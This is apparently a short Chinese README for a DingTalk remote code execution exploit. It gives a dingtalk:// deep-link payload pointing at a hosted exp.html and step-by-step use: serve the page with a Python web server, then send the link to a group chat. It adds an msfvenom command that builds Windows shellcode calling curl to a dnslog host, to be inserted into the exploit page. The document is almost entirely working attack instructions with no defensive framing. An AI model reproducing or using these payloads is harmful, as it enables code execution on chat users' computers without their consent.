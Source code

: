 # 钉钉RCE 漏洞

> payload `dingtalk://dingtalkclient/page/link?url=127.0.0.1/exp.html&pc_slide=true`
## 利用方式
1. 启动web 服务`python -m http.server 80` 
2. 发送payload 到钉钉聊天群组中（个人聊天不能触发）

## 其中shellcode 可以通过msfvenom定制

 `msfvenom -a x86 –platform windows -p windows/exec cmd="curl xxx.dnslog.cn" -e x86/alpha_mixed -f csharp`

 将上面生成的内容调换到 exp.html 文件中的 `var shellcode=new Uint8Array([.....])`